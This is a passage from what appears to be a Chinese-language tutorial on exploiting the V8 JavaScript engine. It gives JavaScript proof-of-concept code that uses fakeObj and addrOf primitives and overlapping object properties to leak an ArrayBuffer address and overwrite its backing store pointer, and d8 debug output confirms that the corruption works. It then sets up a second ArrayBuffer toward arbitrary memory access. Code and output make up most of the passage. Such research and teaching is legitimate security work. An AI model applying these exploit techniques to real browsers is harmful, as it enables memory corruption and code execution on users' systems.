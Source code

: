 ```JavaScript
// Overwrite Backign Store Pointer with 0x41414141
let ret = fakeObj(arrBuf1, 0x41414141n);
print(`[+] Original Leaked Data: 0x${ret.toString(16)}`);
%DebugPrint(arrBuf1)
```
在d8中执行上述代码，结果如下
```bash
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p15 and p11 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x2a164919360
DebugPrint: 000002A164919361: [JSArrayBuffer] in OldSpace
 - map: 0x00f4b4a84371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0143f1990b21 <Object map = 000000F4B4A843C1>
 - elements: 0x029264b02cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 000001AEDA203210
 - byte_length: 1024
 - neuterable
 - properties: 0x029264b02cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
...

[+] Corrupting ArrayBuffer Backing Store Address...
[+] Original Leaked Data: 0x1aeda203210
DebugPrint: 000002A164919361: [JSArrayBuffer] in OldSpace
 - map: 0x00f4b4a84371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0143f1990b21 <Object map = 000000F4B4A843C1>
 - elements: 0x029264b02cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0000000041414141
 - byte_length: 1024
 - neuterable
 - properties: 0x029264b02cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
...
```
成功泄漏了数组缓冲区的地址
成功地用 0x41414141 覆盖了后备存储指针
证明了具有覆盖后备存储指针的能力，现在使用两个数组缓冲区来构建我们的漏洞利用程序
>创建两个数组缓冲区，泄漏第二个数组缓冲区的地址，使用第二个数组缓冲区的地址覆盖第一个数组缓冲区的后备存储指针

实现代码如下
```JS
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2fAddr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2fAddr.toString(16)}`);

```